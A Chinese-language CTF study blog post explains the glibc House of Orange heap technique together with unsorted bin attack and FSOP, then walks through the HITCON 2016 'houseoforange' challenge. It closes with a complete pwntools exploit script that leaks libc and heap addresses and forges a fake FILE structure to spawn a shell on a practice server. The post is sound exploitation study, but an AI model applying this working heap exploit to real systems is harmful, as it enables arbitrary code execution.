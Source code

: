 ```yaml
---
title: House of Orange
tags:
    - pwn
    - House of XXX
categories:
    - 学习笔记
cover: /img/达令.png
---
```

# House of Orange
## 前言
看了将近五天的博客，一步一步弄，总算是把步骤都搞清楚了。其实光一个House of  Orang的点不用看怎么久。只是后续unsorted bin attack 和 FSOP 的利用，确实要细看。这道题也无愧是经典。也是渐渐有学习的感觉了。让我们来细细解析这个手法，感受一下pwn的美妙。

ps：本文中，没有相关源码的展示和分析，考虑后续去做一个对应的专门的分析板块。
## house of orange 简介
使用场景：当程序中没有free功能时，而我们又需要得到free chunk，就可以通过这个手段来获取free chunk
使用条件：需要要堆溢出漏洞，可以修改top chunk的size
利用原理：正常情况下（指绕过检查），如果申清的堆块大小大于top chunk大小，那么top chunk就会被放进unsorted bin中。然后重新映射或扩展一个新的top chunk。
绕过检查：1.top chunk 的size 必须大于MINSIZE ，且小于我们申请的堆块大小。2.top chunk 的pre_inuse 必须为“1”。3.top chunk 的size + top chunk 的addr 必须页对齐(最后3为是0x00)。4.我们申请的堆块必须小于0x2000

## unsorted bin attack & FSOP 简介
### unsorted bin attack
使用场景：一般是辅助其他攻击手段的，本身这个手法并没有什么大作用
使用条件：堆溢出或者uaf，可以编辑unsorted bin 中链尾的 bk
使用原理：修改unsorted bin链尾bk，可以往bk中写入main_arena+88的地址
注意事项：在此之后，无法再从unsorted bin中申请堆块

### FSOP 
篡改__IO_list_all 和 _chain，来劫持IO_FILE.然后在FSOP中我们使用_IO_flush_all_lockp来刷新_IO_list_all链表上的所有文件流，也就是对每个流都执行一下fflush，而fflush最终调用了vtable中的_IO_overflow.
1.在这样的一个利用链里，前面的步骤让我们在__IO_list_all 的表头写入了main_arena+88 。破坏了这个结构体的结构。此时chain字段的内容被修改为main_arena 中 smallbin chunk 的地址。
2.所以，下一个结构体就会是，我们的small bin 的chunk。此时控制这个chunk 的内容，就能控制__IO_list_all ，按照要求部署结构。再下一次malloc 时，就可以触发。
3.这里需要注意，__IO_list_all 这个结构是变化的，首先在溢出修改完时，这个的结构是，头在main_arena+88 的位置.此时的chain 指向small bin chunk.所以下一次,表头就是,这个chunk 的头部，里面的字段也会是对应的内容。我们需要控制的flag字段，vtable字段，还有中间的相关字段

## 例题
### houseoforange_hitcon_2016
分析一下exp吧，具体的一个流程有时间再补充一下。

![image-20250526224440703](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250526224440703.png)
1.这一段主要是在泄露libc。先正常添加一个堆块，然后利用溢出去修该top chunk 的size 为0xfa1，紧接着申清大堆块完成house of orange的利用。
2.然后的add,是为了把libc泄露出来，因为本题没有uaf，所以只能这样。把fd覆盖后，接受bk。

![image-20250526224818280](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250526224818280.png)
1.这里还是泄露为主，泄露堆地址，这个是题目本身会在申请的堆块里写入地址。同时没有`"\x00"`覆盖，导致后续的泄露。这里把上一个堆块的fd 和 bk 位置都填充满，去泄露下面的信息。

![image-20250526225200971](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250526225200971.png)
1.这段时unsorted bin attack 和 FSOP 一起的，似乎这个必须一起，不能分开。第五行就是对之前unsorter bin 中chunk bk 的复写。
2.同时，这个位置也是伪造的small bin。也是后续的第二个FILE 的结构体。
3.感觉其实应该也不是只能这么写吧，这个应该是所需字节数最少的写法，后续可以尝试把两个分开写写看能不能成功.
4.现在验证了，这个偏移是不能乱填的，因为必须把原先的堆块的size 覆盖掉，不能随便伪造其他堆块。


#### exp
```python
from esy import *
context.log_level="debug"
arch='amd64'
ip='node5.buuoj.cn'
port=29775
io,elf=loadfile("houseoforange_hitcon_2016",ip,port)
libc=ELF("/home/tsq/glibc-all-in-one/libs/2.23_0ubuntu10_amd64/libc.so.6")

def add(size,content):
	io.sendlineafter("Your choice : ",str(1))
	io.sendlineafter("Length of name :",str(size))
	io.sendafter("Name :",content)
	io.sendlineafter("Price of Orange",str(1))
	io.sendlineafter("Color of Orange",str(2))

def edit(size,content):
	io.sendlineafter("Your choice : ",str(3))
	io.sendlineafter("Length of name :",str(size))
	io.sendafter("Name:",content)
	io.sendlineafter("Price of Orange",str(1))
	io.sendlineafter("Color of Orange",str(2))

	
def show():
	io.sendlineafter('Your choice : ',str(2))

add(0x10,'a')
edit(0x40,b'b'*0x18+p64(0x21)+p64(0x0000002000000001)+p64(0)*2+p64(0xfa1))
add(0x1000,'c'*8)
add(0x400,'d'*8)
#gdb.attach(io)
show()

io.recv(0x18)
leak=u64(io.recv(6).ljust(8,b'\x00'))
libcbase=leak-0x3c5188

io_list_all=libcbase+libc.symbols['_IO_list_all']
sys_addr=libcbase+libc.symbols['system']
edit(0x20,'e'*0x10)

show()

io.recvuntil('e'*0x10)
leak_heap=u64(io.recv(6).ljust(8,b'\x00'))
logvalue("libcbase",hex(libcbase))
logvalue('leak_heap',hex(leak_heap))
payload=b'f'*0x400
payload+=p64(0)+p64(0)
payload+=p64(0)+p64(0)
payload+=b'/bin/sh\x00'+p64(0x61) #old top chunk prev_size & size 同时也是fake file的_flags字段
payload+=p64(0)+p64(io_list_all-0x10) #old top chunk fd & bk
payload+=p64(0)+p64(1)#_IO_write_base & _IO_write_ptr
payload+=p64(0)*7
payload+=p64(leak_heap+0x430)#chain
payload+=p64(0)*13
payload+=p64(leak_heap+0x508)
payload+=p64(0)+p64(0)+p64(sys_addr)
edit(0x1000,payload)
io.interactive()


```
## 参考博客
[关于house of orange(unsorted bin attack &&FSOP)的学习总结 - ZikH26 - 博客园](https://www.cnblogs.com/ZIKH26/articles/16712469.html)
